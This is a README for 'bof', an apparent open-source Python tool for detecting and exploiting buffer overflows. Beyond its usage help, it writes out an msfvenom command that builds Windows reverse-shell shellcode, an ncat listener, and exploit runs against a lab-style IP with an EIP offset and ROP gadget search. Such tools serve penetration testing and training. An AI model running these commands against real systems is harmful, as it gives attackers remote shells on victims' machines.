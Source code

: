 # bof

Simple tool to detect and exploit buffer overflows.

<img src="https://raw.githubusercontent.com/sudoaza/bof/main/images/bof.svg" alt="bof Buffer Overflow exploitation script usage" width="960" />

## Usage

usage: bof.py [-h] [-H HOST] [-p PORT] -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS] [-d] [-v]

Exploit buffer overflows.

options:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Target host
  -p PORT, --port PORT  Target port
  -o OFFSET, --offset OFFSET
                        EIP offset
  -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
  -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
  -s SIZE, --size SIZE  Payload size
  -sf SUFFIX, --suffix SUFFIX
                        Payload suffix, Ie. \n
  -pf PREFIX, --prefix PREFIX
                        Payload prefix, Ie. USER
  -a ARCH, --arch ARCH  Target architecture. x86 / amd64
  -O OS, --os OS        Target OS. windows / linux
  -d, --dry             Dry run. Print would be paylad.
  -v, --debug           Show debug information

Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

  $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f python -a x86 -b "\x00\x09\x0a\x0d\xff" > shellcode.py

Listen for shell

  $ ncat -lvp 4444

Run exploit

  $ ./exploit.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'

Run by passing a binary and search for a JPM ESP ROP automatically

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt

